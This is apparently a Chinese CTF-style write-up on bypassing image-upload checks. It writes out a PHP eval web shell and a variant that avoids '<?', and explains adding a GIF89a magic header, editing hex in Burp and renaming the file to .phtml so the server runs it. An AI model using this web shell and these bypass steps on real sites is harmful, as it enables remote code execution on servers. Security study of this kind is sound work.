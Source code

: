 ```yaml
---
title: 文件幻术头
date: 2024-04-27 20:58:19
tags:
---
```


### 文件幻术头

```
情景介绍
要求的是传图片，将一句话木马<?php @eval($_POST['6']);?>写入文件然后试着传一下.php文件试试（并抓包），结果会被前端检测到上传的文件格式图片（客户端javascript检测，检测文件扩展名）。改包改成.jpg格式再放包，结果提示不能出现<?（服务端文件内容检测，检测内容是非合法或含有恶意代码），然后换一个没有<?的木马<script language="php"> @eval($_POST['6']); </script>继续放包，结果后端检测到这个文件是假的图片文件（服务端文件内容检测，检测内容是非合法或含有恶意代码），要在木马前面加一个GIF98a（文件幻术头） 以达到让后端检测的时候相信这是一个图片文件。放包看到上传成功，但响应包没有所上传文件的路径（url/upload/muma.jpg），菜刀连接url/upload/muma.jpg发现不能访问，这里的问题是因为上传的文件得是.phtml格式，即图片格式绕过前端后要改包将文件格式改为.phtml。此处设计到的知识点用下面会讲。
```

<!-- more -->

### 姿势

#### 文件幻术头

什么是文件幻术头
文件幻术头（也称为文件头、文件标识或魔术头）是文件的二进制数据中的一段特定字节序列，用于标识文件的类型或格式。它在文件的开头位置，并且通常是固定长度的。

**文件幻术头的主要作用**

```
1.文件类型识别：文件幻术头可以帮助程序或操作系统识别文件的类型。通过读取文件幻术头的特定字节序列，可以确定文件的实际类型，例如图片文件、音频文件、视频文件等。这对于文件处理软件和操作系统来说非常重要，因为它们需要根据文件的类型采取不同的处理方式。
2.文件完整性验证：文件幻术头还可以用于验证文件的完整性。某些文件格式的幻术头包含了文件的校验和或哈希值，可以用于检测文件是否被篡改或损坏。例如，压缩文件格式如ZIP和GZIP在文件头中包含了校验和，可以用于验证文件的完整性。
3.文件类型扩展名关联：文件幻术头通常与文件的扩展名（例如.jpg、.png、.bmp等）关联。文件的扩展名通常用于表示文件类型，但它们可以被篡改或者不准确，而文件幻术头提供了一种更可靠的方式来确定文件的实际类型。这对于操作系统和文件管理工具来说非常重要，可以确保文件被正确地关联到相应的应用程序进行打开或处理。
4.绕过文件类型检查：某些服务器端对文件类型的检查可能仅仅是检查文件的扩展名而不是文件的内容。你可以尝试修改木马文件的内容，使其符合服务器端允许的文件类型的文件格式。例如，你可以通过在文件开头添加合法的文件头（如GIF的文件头）来绕过文件类型检查。
```

**常见的图片文件格式文件幻术头**

```
JPEG文件（.jpg或.jpeg）的幻术头：FF D8 FF
PNG文件（.png）的幻术头：89 50 4E 47 0D 0A 1A 0A
GIF文件（.gif）的幻术头：47 49 46 38 39 61 或 47 49 46 38 37 61
BMP文件（.bmp）的幻术头：42 4D
TIFF文件（.tif或.tiff）的幻术头：4D 4D 00 2A 或 49 49 2A 00
ICO文件（.ico）的幻术头：00 00 01 00
WebP文件（.webp）的幻术头：52 49 46 46 xx xx xx xx 57 45 42 50，其中 xx 是文件大小的字节序列
```


注意这里的16进制文件幻术头是字符经过前端编码后得到的，例如GIF的47 49 46 38 39 61经过16进制转换为字符后就是GIF89a,而这个GIF89a可以直接放到木马脚本的前面，因为上传的时候前端回将其编码为47 49 46 38 39 61（这里再burp抓到的包可以看到hex）。而其他几种文件的幻术头解码为字符串放到木马脚本前面再传的时候还是不行（因为解码出来有些不是机器码所以复制的时候回乱码）这里可以直接去burp里面改16进制包（在不破坏包的情况下改木马前面的十六进制）。

**响应包没有所上传文件的路径**

```
可能原因：
1.响应包未包含上传文件路径信息：有些应用程序在文件上传过程中，不会将上传文件的路径信息直接包含在响应包中，而是在后端进行处理。这种情况下，Burp Suite无法获取上传文件的路径信息，因此不会显示在响应包中。
2.Burp Suite未正确解析上传文件路径信息：Burp Suite在处理响应包时，可能会有解析错误，导致上传文件路径信息未正确显示。你可以尝试检查Burp Suite的配置，确保已启用文件上传路径的解析。
3.文件上传路径信息被服务器端删除：在一些情况下，服务器端可能会删除或清除上传文件的路径信息，以保护文件上传的安全性。这种情况下，即使文件上传成功，Burp Suite也无法获取文件路径信息。
```

解决姿势1：猜：URL/upload/muma.phtml 或URL/uploads/muma.phtml

#### 上传的文件得是.phtml之类可被服务器执行的文件

```
原因：成功上传并在服务器上执行木马文件通常需要满足以下几个条件：
1.文件格式：木马文件的格式需要符合服务器端允许执行的文件类型。例如，
在PHP服务器上，通常需要上传.php、.phtml、.php3、.php4、.php5等扩展名的文件；
在ASP服务器上，通常需要上传.asp、.aspx、.ashx等扩展名的文件。
2.文件内容：木马文件的内容需要包含有效的代码，可以被服务器解析和执行。例如，在PHP服务器上，需要包含有效的PHP代码；在ASP服务器上，需要包含有效的ASP代码。
3.文件上传方式：文件上传方式需要绕过服务器端的安全限制，使得木马文件可以成功上传到服务器上。这可能包括绕过文件类型检查、目录遍历漏洞、文件包含漏洞等。
解决姿势：
1.修改木马文件的扩展名：将木马文件的扩展名从.jpg修改为其他能够在服务器端执行的文件类型，例如.php、.phtml等。这可以绕过服务器端对文件类型的检查，使得木马文件可以被执行。请注意，这只是一种绕过技术，可能并不适用于所有情况，且可能违反了服务器的安全策略和法律法规。
```

